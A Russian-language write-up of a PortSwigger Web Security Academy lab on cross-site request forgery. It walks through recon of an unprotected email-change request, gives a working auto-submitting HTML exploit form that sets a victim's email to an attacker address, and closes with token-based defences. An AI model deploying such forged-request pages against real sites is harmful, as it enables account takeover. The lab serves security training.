


## Lab: CSRF vulnerability with no defenses 

**Платформа:** PortSwigger Web Security Academy  
**Категория:** CSRF  
**Сложность:** Apprentice  
**Дата:** 2025-07-08  

---

## TL;DR
Функция смены email не защищена CSRF-токеном. Через HTML-форму
с автосабмитом на exploit-сервере удалось сменить email жертвы
без её ведома.

---

## Описание уязвимости
CSRF (Cross-Site Request Forgery) — атака при которой браузер жертвы
отправляет запрос к уязвимому сайту от её имени. Это возможно потому
что браузер автоматически прикладывает куки сессии к любому запросу,
даже инициированному с другого сайта.

Защита от CSRF — уникальный токен в каждой форме который сервер
проверяет. В этой лабе токена нет — сервер принимает любой
POST-запрос с валидной сессией.

---

## Разведка

Залогинилась как `wiener:peter`, открыла форму смены email.
Через DevTools (F12 → Network) посмотрела запрос при смене email:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=aBcDeFgHiJ...
Content-Type: application/x-www-form-urlencoded

email=test@test.com
```

Никакого CSRF-токена в запросе нет — только email и сессионная кука.
Это означает что любой сайт может отправить такой же запрос
от имени залогиненной жертвы.

---

## Эксплуатация

### Шаг 1 — Создание exploit-страницы
Подготовила HTML который автоматически отправляет форму:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b00e804facdae80e67bff00520064.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@evil.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Шаг 2 — Размещение на exploit-сервере
Вставила HTML в поле Body exploit-сервера → Save.

### Шаг 3 — Проверка на себе
Нажала "View exploit" — email сменился на `hacked@evil.com`.
Эксплойт работает.

### Шаг 4 — Атака на жертву
Изменила email в payload на новый, нажала "Deliver to victim".
Email жертвы изменён — лаба решена.




---

## Итог
Отсутствие CSRF-токена позволяет любому сайту выполнять
действия от имени залогиненного пользователя. Жертва
не совершает никаких действий кроме открытия вредоносной страницы.

---

## Защита

```python
# Генерируем уникальный токен для каждой сессии:
import secrets

csrf_token = secrets.token_hex(32)
session['csrf_token'] = csrf_token
```

# На сервере проверяем:
```python
if request.form['csrf_token'] != session['csrf_token']:
    abort(403)
```

Дополнительно:
- `SameSite=Strict` на куках — браузер не отправит куки
  при кросс-сайтовых запросах
- Проверка заголовка `Origin` на сервере